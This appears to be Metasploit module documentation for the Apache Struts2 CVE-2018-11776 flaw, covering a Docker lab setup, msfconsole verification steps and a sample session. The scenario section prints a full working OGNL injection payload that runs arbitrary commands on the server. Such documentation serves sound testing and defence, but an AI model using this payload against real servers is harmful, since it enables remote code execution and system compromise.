 CVE-2018-11776 is a critical vulnerability in the way Apache Struts2 handles namespaces and redirection, which permits an attacker to execute [OGNL(https://commons.apache.org/proper/commons-ognl/language-guide.html) remotely.  Using OGNL, the attacker can modify files and execute commands.

The vulnerability was reported to Apache by [Man Yue Mo] from Semmle in April 2018.  It was widely publicized in August 2018, with PoCs appearing shortly thereafter.

## Vulnerable Application

  The Struts showcase app, with a slight adaptation to introduce the vulnerability, works reliabliy as a practice environment.
  *@hook-s3c* did an amazing job with [their writeup](https://github.com/hook-s3c/CVE-2018-11776-Python-PoC/blob/master/README.md), which I'll include exerpts of here:

  1. From a stock Ubuntu VM, install docker:
  ```
  sudo apt update && sudo apt install docker.io
  ```

  2. Download a vulnerable Struts showcase application inside a docker container:
  ```
  sudo docker pull piesecurity/apache-struts2-cve-2017-5638
  sudo docker run -d --name struts2 -p 32771:8080 piesecurity/apache-struts2-cve-2017-5638
  CONTAINER_ID=`sudo docker ps -l -q`
  ```

  3. Now that the container is running, open a terminal inside of it:
  ```
  sudo docker exec -it $CONTAINER_ID /bin/bash
  ```

  4. From within the container, install your text editor of choice and modify the Struts configs:
  ```
  sudo apt update && sudo apt install nano
  nano /usr/local/tomcat/webapps/ROOT/WEB-INF/classes/struts.xml
  ```

  5. Update the struts config to add this to above line #11:
  ```
  <constant name="struts.mapper.alwaysSelectFullNamespace" value="true" />
  ```

  6. Update the same struts config file to add this above line #78:
  ```
      <action name="help">
          <result type="redirectAction">
              <param name="actionName">date.action</param>
          </result>
      </action>
  ```

  7. Still within the container, shutdown the environment:
  ```
  /usr/local/tomcat/bin/shutdown.sh
  ```

  8. Upon completion, the container will shutdown and you'll return to the host environment.  Restart the container, now with a vulnerable endpoint:
  ```
  sudo docker start $CONTAINER_ID
  ```

  Congratulations.  You now have a vulnerable Struts server.  If you're following these instructions, your server should be listening on 0.0.0.0:32771.  To confirm:
  ```
  INTERFACE=`ip route list 0.0.0.0/0 | cut -d' ' -f5`
  IPADDRESS=`ip addr show $INTERFACE | grep -Po 'inet \K[\d.]+'`
  PORT_NUM=`sudo docker port $CONTAINER_ID | sed 's/.*://'`
  echo "Struts container is listening on $IPADDRESS:$PORT_NUM"
  ```

## Verification Steps

  Confirm that check functionality works:
  - [ ] Install the application using the steps above.
  - [ ] Start msfconsole.
  - [ ] Load the module: ```use exploit/multi/http/struts_namespace_rce```
  - [ ] Set the RHOST.
  - [ ] Set an invalid ACTION: ```set ACTION wrong.action```
  - [ ] Confirm the target is *not* vulnerable: ```check```
  - [ ] Observe that the target is *not* vulnerable: ```The target is not exploitable.```
  - [ ] Set a valid ACTION: ```set ACTION help.action```
  - [ ] Confirm that the target is vulnerable: ```The target is vulnerable.```

  Confirm that command execution functionality works:
  - [ ] Set a payload: ```set PAYLOAD cmd/unix/generic```
  - [ ] Set a command to be run: ```set CMD hostname```
  - [ ] Run the exploit: ```run```
  - [ ] Confirm the output is the container ID of your docker environment, e.g: ```b3d9b350d9b6```
  - [ ] You will not be given a shell (yet).

  Confirm that payload upload and execution works:
  - [ ] It doesn't (yet).
## Options

  **TARGETURI**

  The path to the struts application.  Note that this does not include the endpoint.  In the environment above, the path is `/`.

  **ACTION**

  The endpoint name.  In the environment above, the endpoint is `help.action`.

## Scenarios

### Version of software and OS as applicable

  Checking a vulnerable endpoint, as installed in the above steps.

  ```
  msf > use exploit/multi/http/struts_namespace_rce
  msf5 exploit(multi/http/struts_namespace_rce) > set RHOSTS 192.168.199.135
  msf5 exploit(multi/http/struts_namespace_rce) > set RPORT 32771
  msf5 exploit(multi/http/struts_namespace_rce) > set ACTION help.action
  ACTION => help.action
  msf5 exploit(multi/http/struts_namespace_rce) > check
  [+] 192.168.199.135:32771 The target is vulnerable.
  ```

  Running an arbitrary command on the above-described environment:

  ```
  msf5 exploit(multi/http/struts_namespace_rce) > set VERBOSE true
  msf5 exploit(multi/http/struts_namespace_rce) > set PAYLOAD cmd/unix/generic
PAYLOAD => cmd/unix/generic
msf5 exploit(multi/http/struts_namespace_rce) > set CMD hostname
CMD => hostname
msf5 exploit(multi/http/struts_namespace_rce) > run
[*] Submitted OGNL: (#_memberAccess['allowStaticMethodAccess']=true).(#cmd='hostname').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())

[*] Command ran.  Output from command:
b3d9b350d9b6

[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/struts_namespace_rce) > 
  ```

